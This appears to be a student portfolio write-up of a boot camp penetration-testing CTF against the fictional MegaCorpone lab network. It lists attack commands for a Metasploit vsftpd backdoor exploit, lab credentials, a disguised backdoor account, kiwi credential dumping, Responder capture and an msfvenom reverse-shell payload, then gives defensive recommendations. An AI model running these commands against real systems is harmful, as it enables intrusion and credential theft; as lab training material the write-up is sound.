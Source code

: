 # Challenges 16 &amp; 17: MegaCorpone/Offensive Security CTF

## Objective Summary
This project highlights offensive security techniques practiced during the University of California, Irvine's Cybersecurity Boot Camp. It involved simulating penetration testing on the fictional MegaCorpone Corporation to uncover and exploit vulnerabilities within their Linux servers and Windows servers. The objective was to identify potential security weaknesses and demonstrate real-world offensive security methodologies.
 
## Project Highlights
Key Achievements:
- Conducted vulnerability assessments and penetration tests on MegaCorpone’s network.
- Exploited misconfigurations and weaknesses in Linux and Windows server environments.
- Delivered actionable security insights and recommendations based on findings.

### Technical Skills Gained
- Server Security:
   - Conducted vulnerability scans and exploited misconfigurations on Linux and Windows servers.
   - Practiced privilege escalation to simulate full system compromise.
- Penetration Testing Methodology:
   - Followed the 5-phase penetration testing process: Reconnaissance, Scanning, Exploitation, Persistence, and Privilege Escalation.
   - Used the MITRE ATT&CK Framework to guide structured attack simulations.
- OSINT & Reconnaissance:
   - Leveraged OSINT tools like OSINT Framework, Google Dorking, and GitHub for information gathering.


### Tools & Environments Used
| Category                                      | Tools Used       |
|-----------------------------------------------|----------------------------|
| <b>Penetration Testing Tools</b>       | Metasploit, Searchsploit, MsVenom |
| <b>Vulnerability Scanning</b>  |  Nmap, Zenmap, Nessus | 
| <b>OSINT Tools</b> | OSINT Framework, Google, GitHub, Shodan.io | 
| <b>Virtual Environments</b> |  Kali Linux, Windows 10, Hyper-V Manager, Azure Windows VMs | 



## Project Write up
### Scenario Overview
MegaCorpone, a fictional company, engaged penetration testers (CTP, LLC) to evaluate the security of its web application, Linux, and Windows servers. As they prepared for launch, the goal was to identify and remediate vulnerabilities to ensure a secure deployment.

### Summary of Project Steps

1. <b>Reconnaissance</b>

Gathered publicly available information using Google Dorking and OSINT tools to uncover:
- Website asset files
- Employee usernames and emails
- Sensitve company data
- Server details with open ports (22, 80, 443)

Google Dorking Example:
google: site:megacorpone.com intext:email OR filetype:pdf OR filetype:doc
____________________
2. <b>Scanning & Enumeration</b>

Performed Nmap/Zenmap scans to discover network assests and vulnerabilities:
- Detected open ports (22, 80, 443) and the server OS (Apache/2.4.62 on Debian) on Linux server.
- Identified two additional Windows machines and their open ports.

 Nmap Scan Command Example:
- nmap -sV 172.22.117.150 (service version scan)
____________________
3. <b>Exploitation of Linux Server</b>
- Used MSFconsole to exploit vsftp 2.3.4 service on port 21 to gain access.
- Extracted stored credentials from system text files.
- Used credentials to SSH into the server for further exploitation.

MSFconsole Exploit Example:
- msfconsole -q
- use exploit/unix/ftp/vsftpd_234_backdoor
- set RHOSTS 172.22.117.150
- exploit

 SSH into Linux Server:
- ssh msfadmin@172.22.117.150

Credentials Discovered:
| Username     | Password |
| ------------- | -------- |
| msfadmin | cybersecurity |
| tstark   | Password! | 
____________________
4. <b>Persistence & Credential Harvesting</b>
- Created a persistent backdoor user account to maintain system access.
- Used MSFconsole and LLMNR protocol to capture additional credentials from the Windows 10 machine.
- Exploited Windows DC machine using MSFvenom and Kiwi tools to extract further login credentials.

 Creating a New User for Persistence Example:
- sudo adduser systemmd:password
- sudo usermod -aG admin systemd
- ssh -p 10022 systemd@172.22.117.150

 Kiwi Tools Example:
- kiwi_cmd lsadump::cache
  
 Capturing Windows Credentials Example:
- sudo responder -I eth1 -v

____________________
5. <b>Lateral Movement & Privilege Escalation</b>
- Used admin credentials to move laterally from Windows 10 to the Domain Controller (WinDC01).
- Deployed MSFvenom payloads to escalate privileges and compromise additional systems.

MSFvenom Payload:
- msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.22.117.20 LPORT=4444 -f exe > shell.exe

____________________
### Conclusion

CTP, LLC’s penetration test successfully uncovered critical security vulnerabilities in Megacorpone’s infrastructure. The test demonstrated how weak passwords, exposed usernames, unprotected ports, and vulnerable services could be exploited to gain unauthorized access. Addressing these security gaps is imperative to prevent potential cyber threats, data breaches, and ransomware attacks.

#### Key Takeaways:
- <b>Strengthen Password Policies:</b> Enforce multi-factor authentication and strong password requirements.
- <b>Update or Disable Daemon Services:</b> Regularly update or disable unnecessary services to reduce attack surfaces.
- <b>Secure Open Ports:</b> Restrict unnecessary services and implement firewall rules.
- <b>Monitor for Unauthorized Access:</b> Deploy intrusion detection systems (IDS) to detect suspicious activity.







